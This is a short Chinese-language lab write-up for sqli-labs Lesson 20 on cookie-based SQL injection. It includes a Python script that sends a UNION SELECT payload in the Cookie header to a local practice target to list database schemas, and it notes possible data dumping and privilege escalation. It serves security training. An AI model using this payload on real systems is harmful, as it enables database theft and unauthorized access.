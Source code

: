 # Lesson-20
```
Cookie注入-,-明注POST)
```

Cookie 注入 , 修改自身cookie , 后台获取到这个cookie后 , 会直接拿去数据库里面进行比较 , 比较的时候就有可能注入(这里指的注入的危害种类应该很多 , 可以通过报错注入dump数据库中的数据 , 也可能查询利用cookie机制进行越权操作)
```
import requests

url = "http://127.0.0.1/Less-20/"

postDate = {
	'uname':'admin',
	'passwd':'admin'
}

headers = {
	'Host':'127.0.0.1',
	'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:50.0) Gecko/20100101 Firefox/50.0',
	'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
	'Accept-Language':'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
	'Accept-Encoding':'gzip, deflate',
	'Referer':'http://127.0.0.1/Less-20/index.php',
	'Cookie':'uname=\' union select 1,group_concat(schema_name),3 from information_schema.schemata#',
	'Connection':'keep-alive',
	'Upgrade-Insecure-Requests':'1',
	'Cache-Control':'max-age=0'
}

content = (requests.post(url, data=postDate, headers=headers).text)
print(content)
```
> 后记 : 
这里将用户名直接从数据库中查询出来 , 这样可以利用这个漏洞从数据库中dump出数据 , 考虑一下会不会存在越权的风险 , 比如说控制SQL语句让查询出的结果集指向别的用户
